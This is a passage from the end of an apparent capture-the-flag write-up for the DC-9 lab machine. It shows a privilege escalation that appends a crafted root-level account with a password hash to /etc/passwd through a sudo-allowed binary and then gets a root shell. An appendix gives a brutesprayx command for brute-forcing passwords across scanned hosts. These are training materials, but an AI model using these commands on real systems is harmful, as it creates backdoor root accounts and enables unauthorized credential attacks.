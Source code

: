 ```bash
fredf@dc-9:/opt/devstuff$ echo 'bravosec:$1$xD$AYfq.y7VkkN19TKtRxi2m1:0:0:root:/root:/bin/bash' > /tmp/x
fredf@dc-9:/opt/devstuff$ sudo -u root /opt/devstuff/dist/test/test /tmp/x /etc/passwd
```

```bash
fredf@dc-9:/opt/devstuff$ su - bravosec
Password:
root@dc-9:~# id
uid=0(root) gid=0(root) groups=0(root)
```

# Post Exploitation


## System Proof Screenshot

![](/assets/obsidian/1cca5f48cb965e36a0a1e4a501ad1483.png)

# Appendix


## Brutesprayx

> https://github.com/x90skysn3k/brutesprayx

Very useful for multiple hosts / ports situation

> As of `2024/01/04`, we need to supply user and password list with file descriptor to make it load properly. [Github Issue](https://github.com/x90skysn3k/brutesprayx/issues/4)

```bash
/opt/sectools/password-attacks/bruteforce/brutesprayx -f nmap/all_tcp_ports.gnmap -u <(cat users.txt) -p <(cat passwords.txt) -q
```

![](/assets/obsidian/efeb416dd19dfde26fe673cb52e4c18d.png)

![](/assets/obsidian/a099fbfdf719eef3b93cf2fa5bf56583.png)

![](/assets/obsidian/5ba159fe1a03ef2747f77f18e65c2440.png)